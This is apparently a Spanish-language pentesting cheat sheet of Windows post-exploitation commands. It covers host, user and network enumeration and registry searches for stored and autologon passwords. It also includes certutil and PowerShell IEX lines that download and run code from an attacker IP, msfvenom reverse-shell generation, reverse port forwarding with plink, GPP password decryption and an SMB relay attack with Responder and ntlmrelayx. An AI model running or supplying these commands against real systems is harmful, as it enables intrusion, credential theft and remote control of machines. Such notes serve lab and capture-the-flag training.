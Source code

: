 #windows 
### Enumeración del sistema

```python
	systeminfo
	
	systeminfo | findstr /B /C: "OS Name" /C: "OS Version" /C: "System Type"
	
	wmic qfe get Caption, Description, HotFixID, InstalledOn #Muestra actualizaciones del sistema
	
	wmic logicaldisk get caption, description, providername #Muestra discos
```
### Enumeración de usuarios

```python
whoami

whoami /priv

whoami /groups

net user

net user <USUARIO>

net localgroup

net localgroup <GRUPO>
```
### Enumeración de red

```python
ip a

ifconfig

route

ip route

aipconfig

ipconfig /all #Información extendida

arp -a

route print

netstat -ano
```

### smbclient 

```python
	smbclient \\\\spookysec.local\\backup --user user --password pass
```
### Búsqueda de archivos

```python
#CMD
cmd /c dir /r /s C:\root.txt

where /r c:\ file.txt

#Powershell

Get-ChildItem -Path C:\Myfolder -Filter file.txt -Recurs

cmd.exe /c dir /s /b C:\user.txt
```
### Búsqueda de credenciales

```python
#Valores en el registro que contengan la string “password”

reg query HKLM /f password /t REG_SZ /s

#Listar autologon passwords

reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#Lista contraseñas guardadas

cmdkey /list
```
### Enumeración de antivirus

```python
sc query windefend

sc queryex type= service #Lista servicios activos

netsh advfirewall firewall dump
```
### Enumeración con herramientas automáticas

```python
	[Release Release refs/heads/master 20230108 · carlospolop/PEASS-ng (github.com)](https://github.com/carlospolop/PEASS-ng/releases/tag/20230108)
	
	[bitsadmin/wesng: Windows Exploit Suggester - Next Generation (github.com)](https://github.com/bitsadmin/wesng)

````

### Descarga de archivos

```python
certutil.exe -urlcache -f 10.10.14.4 exploit.exe
```
### Comprobación de permisos sobre un archivo

```python
accesschk.exe /accepteula -quvw <user> <Ruta absoluta del archivo>
```
### Ejecución de un programa como otro usuario en Powershell

```python
powershell -c "$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<USER>', $password);Start-Process -FilePath "<PROGRAM.EXE>" -Credential $creds"
```
### Windows Port Forwarding

```python
plink.exe -l <KALI_USER> -pw <KALI_USER_PASS> -R <KALI_PORT>:<LOCAL_IP/LOCALHOST_IP>:<LOCAL_PORT> <KALI_IP>
```
### Transferencia de archivos mediante smb

```python
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . #Kali

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe #Windows
```
### Desencriptado GPP

```python
gpp-decrypt "<hash>"
```
### Web Client

```python
IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.64/SharpHound.ps1')
```
### Generación de Reverse Shell ejecutable

```python
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```
### SMBRelay

```python
#Comprobando firmas SMB
crackmapexec smb 10.0.2.6
nmap -p 445 --script smb2-security-mode <IP> -Pn
#Ataque con Responder
#Editar el archivo de configuración de Responder y desactivar las opciones SMB y HTTP -> /etc/responder/Responder.conf
sudo responder -I eth0 -dw
impacket-ntlmrelayx -t <IP_VÍCTIMA> -smb2support
#(Actualizar este punto porque parece que los comandos y la ejecución está bastante deprecada)
```
### Credenciales Autólogo

```python
cd HKLM:

cd "SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

Get-ItemProperty . | select-Object DefaultDomainName, DefaultUserName, DefaultPassword
```

